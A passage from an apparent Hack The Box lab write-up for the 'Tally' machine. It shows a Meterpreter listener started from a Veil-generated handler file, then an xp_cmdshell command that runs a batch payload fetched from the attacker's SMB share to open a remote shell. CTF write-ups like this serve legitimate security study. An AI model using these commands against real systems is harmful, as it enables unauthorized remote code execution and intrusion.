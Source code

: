 We can now start up our Meterpreter listner with:
{% highlight bash %}
msfconsole -r /var/lib/veil/output/handlers/tally-msf.rc
{% endhighlight %}

![](/images/hackthebox-writeups/tally/msf-1.png)

We can now execute our bat file over the network with `xp_cmdshell` and our `SMB Server`

{% highlight bash %}
xp_cmdshell '\\10.10.14.30\share\tally-msf.bat'
go
{% endhighlight %}

![](/images/hackthebox-writeups/tally/msf-2.png)
